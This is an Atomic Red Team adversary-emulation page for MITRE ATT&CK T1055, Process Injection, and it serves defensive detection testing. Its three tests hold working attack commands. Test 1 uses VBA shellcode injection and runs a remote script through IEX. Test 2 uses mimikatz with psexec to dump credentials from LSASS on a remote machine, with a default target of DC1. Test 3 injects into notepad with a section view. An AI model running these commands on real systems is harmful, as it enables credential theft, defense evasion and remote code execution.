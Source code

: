 # T1055 - Process Injection
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1055)
<blockquote>Adversaries may inject code into processes in order to evade process-based defenses as well as possibly elevate privileges. Process injection is a method of executing arbitrary code in the address space of a separate live process. Running code in the context of another process may allow access to the process's memory, system/network resources, and possibly elevated privileges. Execution via process injection may also evade detection from security products since the execution is masked under a legitimate process. 

There are many different ways to inject code into a process, many of which abuse legitimate functionalities. These implementations exist for every major OS but are typically platform specific. 

More sophisticated samples may perform multiple process injections to segment modules and further evade detection, utilizing named pipes or other inter-process communication (IPC) mechanisms as a communication channel. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Shellcode execution via VBA](#atomic-test-1---shellcode-execution-via-vba)

- [Atomic Test #2 - Remote Process Injection in LSASS via mimikatz](#atomic-test-2---remote-process-injection-in-lsass-via-mimikatz)

- [Atomic Test #3 - Section View Injection](#atomic-test-3---section-view-injection)


<br/>

## Atomic Test #1 - Shellcode execution via VBA
This module injects shellcode into a newly created process and executes. By default the shellcode is created,
with Metasploit, for use on x86-64 Windows 10 machines.

Note: Due to the way the VBA code handles memory/pointers/injection, a 64bit installation of Microsoft Office
is required.

**Supported Platforms:** Windows


**auto_generated_guid:** 1c91e740-1729-4329-b779-feba6e71d048





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| txt_path | Path to file containing VBA macro to run | path | PathToAtomicsFolder&#92;T1055&#92;src&#92;x64&#92;T1055-macrocode.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "#{txt_path}" -officeProduct "Word" -sub "Execute"
```




#### Dependencies:  Run with `powershell`!
##### Description: The 64-bit version of Microsoft Office must be installed
##### Check Prereq Commands:
```powershell
try {
  $wdApp = New-Object -COMObject "Word.Application"
  $path = $wdApp.Path
  Stop-Process -Name "winword"
  if ($path.contains("(x86)")) { exit 1 } else { exit 0 }
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word (64-bit) manually to meet this requirement"
```
##### Description: #{txt_path} must exist on disk at specified location
##### Check Prereq Commands:
```powershell
if (Test-Path #{txt_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{txt_path}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055/src/x64/T1055-macrocode.txt" -OutFile "#{txt_path}"
```




<br/>
<br/>

## Atomic Test #2 - Remote Process Injection in LSASS via mimikatz
Use mimikatz to remotely (via psexec) dump LSASS process content for RID 500 via code injection (new thread).
Especially useful against domain controllers in Active Directory environments.
It must be executed in the context of a user who is privileged on remote `machine`.

The effect of `/inject` is explained in <https://blog.3or.de/mimikatz-deep-dive-on-lsadumplsa-patch-and-inject.html>

**Supported Platforms:** Windows


**auto_generated_guid:** 3203ad24-168e-4bec-be36-f79b13ef8a83





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| machine | machine to target (via psexec) | string | DC1|
| mimikatz_path | Mimikatz windows executable | path | %tmp%&#92;mimikatz&#92;x64&#92;mimikatz.exe|
| psexec_path | Path to PsExec | string | C:&#92;PSTools&#92;PsExec.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{psexec_path} /accepteula \\#{machine} -c #{mimikatz_path} "lsadump::lsa /inject /id:500" "exit"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```
##### Description: PsExec tool from Sysinternals must exist on disk at specified location (#{psexec_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{psexec_path}") { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "$env:TEMP\PsTools.zip"
Expand-Archive $env:TEMP\PsTools.zip $env:TEMP\PsTools -Force
New-Item -ItemType Directory (Split-Path "#{psexec_path}") -Force | Out-Null
Copy-Item $env:TEMP\PsTools\PsExec.exe "#{psexec_path}" -Force
```




<br/>
<br/>

## Atomic Test #3 - Section View Injection
This test creates a section object in the local process followed by a local section view.
The shellcode is copied into the local section view and a remote section view is created in the target process, pointing to the local section view. 
A thread is then created in the target process, using the remote section view as start address.

**Supported Platforms:** Windows


**auto_generated_guid:** c6952f41-6cf0-450a-b352-2ca8dae7c178






#### Attack Commands: Run with `powershell`! 


```powershell
$notepad = Start-Process notepad -passthru
Start-Process $PathToAtomicsFolder\T1055\bin\x64\InjectView.exe
```

#### Cleanup Commands:
```powershell
Stop-Process $notepad.pid
```





<br/>
